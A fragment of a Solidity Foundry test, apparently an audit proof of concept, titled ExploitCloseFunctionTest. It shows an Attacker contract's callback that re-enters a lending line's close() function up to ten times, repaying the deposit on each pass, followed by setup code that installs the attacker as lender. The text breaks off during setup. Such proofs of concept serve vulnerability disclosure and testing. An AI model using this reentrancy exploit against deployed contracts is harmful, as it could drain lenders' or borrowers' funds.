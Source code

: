             uint256 count_ = count;
            if (count_ >= ATTACK_COUNT) return;
            count = count_ + 1;
            bytes32 id = line.ids(0);
            (uint256 deposit,,,,,,) = line.credits(id);
            token.transfer(address(line), deposit);
            line.close(id);
        }
    
        function enableAttack() external {
            attackEnable = true;
        }
    }
    
    
    contract ExploitCloseFunctionTest is Test {
        uint256 constant ONE_YEAR = 365.25 days;
        uint256 constant ATTACK_COUNT = 10;
        Escrow escrow;
        Spigot spigot;
        RevenueTokenWithHook supportedToken1;
        RevenueToken supportedToken2;
        RevenueToken unsupportedToken;
        SimpleOracle oracle;
        SecuredLine line;
        uint mintAmount = 100 ether;
        uint MAX_INT = 115792089237316195423570985008687907853269984665640564039457584007913129639935;
        uint32 minCollateralRatio = 10000; // 100%
        uint128 dRate = 100;
        uint128 fRate = 1;
        uint ttl = ONE_YEAR;
    
        address borrower;
        address arbiter;
        address lender;
    
        function setUp() public {
            borrower = address(20);
            arbiter = address(this);
            supportedToken1 = new RevenueTokenWithHook();
            supportedToken2 = new RevenueToken();
            unsupportedToken = new RevenueToken();
    
            spigot = new Spigot(arbiter, borrower, borrower);
            oracle = new SimpleOracle(address(supportedToken1), address(supportedToken2));
    
            escrow = new Escrow(minCollateralRatio, address(oracle), arbiter, borrower);
    
            line = new SecuredLine(
              address(oracle),
              arbiter,
              borrower,
              payable(address(0)),
              address(spigot),
              address(escrow),
              ONE_YEAR,
              0
            );
            lender = address(new Attacker(address(line), borrower, address(supportedToken1)));
            assertEq(supportedToken1.registry(lender), true);
            
